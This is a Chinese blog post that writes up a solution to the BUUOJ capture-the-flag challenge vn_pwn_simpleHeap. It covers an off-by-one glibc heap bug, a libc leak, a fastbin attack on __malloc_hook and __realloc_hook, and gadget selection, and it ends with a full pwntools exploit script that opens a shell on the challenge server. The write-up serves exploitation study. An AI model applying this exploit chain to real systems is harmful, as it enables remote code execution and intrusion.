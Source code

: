 ```yaml
---
layout: "post"
title:  "Buuoj冲分过程-vn_pwn_simpleHeap"
subtitle: "一个glibc堆利用的例子 🍺明けましておめでとうございます😆"
date:   2021-01-02 21:15:38 +0800
header-img: "sz-talent-park-bg.jpg"
categories:
  - blog
tags:
  - pwn
  - glibc
  - heap
---
```


# 正文

sub_C39 函数有一个 off-by-one 漏洞，会从stdin读取、写入多一个字节。根据堆内存的chunk结构，我们可以覆盖下一个chunk `mchunk_size`的最后一个字节并修改chunk的大小，然后利用chunk的分裂特点、分配得到重叠的chunk并泄露出 `main_arena.top` 的地址；进一步利用重叠的chunk修改 fastbin并在 main_arena 上方构造大小为0X7F的chunk，最终实现写入任意地址到 `__malloc_hook` 。

## Leak libc

0. 先使得大于 `global_max_fast` 的 chunk 覆盖另一个正在使用的小 chunk；
1. 释放大chunk ，使其进入 unsorted 并被写入 `main_arena.top`的地址；
2. 申请内存使得大chunk发生分裂，`main_arena.top` 的地址写入到小chunk；
3. 输出小chunk并泄露`main_arena.top`

## Gadget

```
ubuntu@VM-0-5-ubuntu:~/project/kayoch1n.github.io/buuoj$ one_gadget /lib/x86_64-linux-gnu/libc.so.6 0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

## Issues

这道题不能把 gadget 直接写入到 `__malloc_hook`：在ubuntu16.04 x86_64 上调试发现，rsp+0x30，rsp+0x50，rsp+0x70处的值都不为0，栈的情况并不能满足任意一个 gadget 的要求；但是通过查阅谷歌了解到另一种方法，这种方法在构造chunk的时候，将 `__realloc_hook` 覆盖为 gadget 的地址，将 `__malloc_hook` 覆盖为一个在 `__libc_realloc` 内的地址 ；触发getshell的调用路径变为 `malloc`->`__libc_malloc`->`__malloc_hook`(address in `__libc_realloc`)->`__realloc_hook`(gadget)。这个方法通过增加调用过程（call压入RA以及function prologue）、加上 `__libc_realloc` 内的push等指令（见下）调整栈顶，使栈上的数据尽量满足gadget的要求。

```
(gdb) disas __libc_realloc
Dump of assembler code for function __GI___libc_realloc:
   0x00007f6b07bc7710 <+0>:     push   %r15       # 
   0x00007f6b07bc7712 <+2>:     push   %r14       #
   0x00007f6b07bc7714 <+4>:     push   %r13       #
   0x00007f6b07bc7716 <+6>:     push   %r12       #
   0x00007f6b07bc7718 <+8>:     mov    %rsi,%r12  #
   0x00007f6b07bc771b <+11>:    push   %rbp       #
   0x00007f6b07bc771c <+12>:    push   %rbx       #
   0x00007f6b07bc771d <+13>:    mov    %rdi,%rbx  #
   0x00007f6b07bc7720 <+16>:    sub    $0x38,%rsp # 以上指令调整栈顶
   0x00007f6b07bc7724 <+20>:    mov    0x33f8a5(%rip),%rax        # 0x7f6b07f06fd0
   0x00007f6b07bc772b <+27>:    mov    (%rax),%rax
   0x00007f6b07bc772e <+30>:    test   %rax,%rax
   0x00007f6b07bc7731 <+33>:    jne    0x7f6b07bc7958 <__GI___libc_realloc+584>
...
   0x00007f6b07bc7958 <+584>:   mov    0x68(%rsp),%rdx
   0x00007f6b07bc795d <+589>:   callq  *%rax      # 触发getshell
...
```

上述指令来自本地libc.so.6；事实上该指令片段和题目提供的libc-2.23.so的指令内容是一致的，只是偏移有差别。本地调试给 `__libc_realloc` 打上断点，检查此时栈顶的结构：

```
(gdb) x/32gx $rsp
0x7ffc3042aa68: 0x000055f11f8d3b71      0x000055f11f8d38e0 # sub    $0x38,%rsp 
0x7ffc3042aa78: 0x0000002000000006      0x00007ffc3042aaa0 #
0x7ffc3042aa88: 0x000055f11f8d3f86      0x00007ffc3042ab80 # 
0x7ffc3042aa98: 0x0000000100000000      0x000055f11f8d3fd0 #
0x7ffc3042aaa8: 0x00007f6b07b63840(rbx) 0x0000000000000000(rbp)
0x7ffc3042aab8: 0x00007ffc3042ab88(r12) 0x0000000108132ca0(r13)
0x7ffc3042aac8: 0x000055f11f8d3f0a(r14) 0x0000000000000000(r15)
0x7ffc3042aad8: 0x14df0f89e95ddc50      0x000055f11f8d38e0 
0x7ffc3042aae8: 0x00007ffc3042ab80      0x0000000000000000
0x7ffc3042aaf8: 0x0000000000000000      0x40c55016c39ddc50
0x7ffc3042ab08: 0x41eb3ffff90ddc50      0x0000000000000000
0x7ffc3042ab18: 0x0000000000000000      0x0000000000000000 # +0x50
0x7ffc3042ab28: 0x00007ffc3042ab98      0x00007f6b08134168 
0x7ffc3042ab38: 0x00007f6b07f1d80b      0x0000000000000000 # +0x70
0x7ffc3042ab48: 0x0000000000000000      0x000055f11f8d38e0
0x7ffc3042ab58: 0x00007ffc3042ab80      0x0000000000000000
```

如果使用 `__libc_realloc` 覆盖 `__malloc_hook`，同样无法满足任意一个gadget的要求；设想不借助push以及sub指令下的栈结构，rsp+0x50及rsp+0x70都可以满足；因此选择使用 0xf0364(0xf02a4) 作为gadget，用 __libc_realloc+20 处的地址覆盖 __malloc_hook。本地可以成功getshell，但是远程打不通；因此尝试调整gadget，选择使用 0xf1207(0xf1147)，ok，顺利打通。

## Payload

```python
#!/usr/bin/python3.6
from pwn import *

filename = './vn_pwn_simpleHeap'
# p = process(filename)
p = remote('node3.buuoj.cn', 25658)
# libc = ELF('/home/ubuntu/glibc-2.23/lib/libc-2.23.so')
libc = ELF('./libc/ubuntu_16_x86_64_libc-2.23.so')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')


def Add(content, size=None):
    p.sendlineafter(b'choice: ', b'1')
    p.sendlineafter(b'size?', bytes(f'{size or len(content)}', encoding='utf8'))
    p.sendlineafter(b'content:', content)


def Edit(index, content):
    p.sendlineafter(b'choice: ', b'2')
    p.sendlineafter(b'idx?', bytes(f'{index}', encoding='utf8'))
    p.sendlineafter(b'content:', content)


def Show(index):
    p.sendlineafter(b'choice: ', b'3')
    p.sendlineafter(b'idx?', bytes(f'{index}', encoding='utf8'))


def Delete(index):
    p.sendlineafter(b'choice: ', b'4')
    p.sendlineafter(b'idx?', bytes(f'{index}', encoding='utf8'))


def Exit():
    p.sendlineafter(b'choice: ', b'5')

Add(b'0', 0x28)   # 0
Add(b'1', 0x68)   # 1
Add(b'2', 0x68)   # 2
Add(b'3', 0x20)   # 3
payload = b'\x00'*0x28 +b'\xe1'
Edit(0,payload)   # 修改下一个chunk的大小
Delete(1)

Add(b'11', 0x68,)  # 1
Show(2)

leaked = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
main_arena = leaked - 88
realloc_hook = main_arena - 0x18
libc_base = realloc_hook - libc.sym['__realloc_hook']

# one_gadgets = [0xf0364]
one_gadgets = [0xf1147, 0xf02a4]

realloc = libc_base + libc.sym['realloc']
log.success(f'&main_arena: {hex(main_arena)}, &realloc_hook: {hex(realloc_hook)},&realloc: {hex(realloc)}, &libc_base: {hex(libc_base)}')

Add(b'i4and2infact', 0x60)  # 4 and 2
Delete(2)
fake_chunk = main_arena - 0x33
payload = p64(fake_chunk)
Edit(4, payload)
#p.interactive()
Add(b'5', 0x60)
gadget = one_gadgets[0]+libc_base
log.success(f'gadget: {hex(gadget)}')

Add(b'\x00' * 11 + p64(gadget) + p64(realloc+20), 0x60)

p.sendlineafter(b'choice: ', b'1')
p.sendlineafter(b'size?', b'32')
p.interactive()
```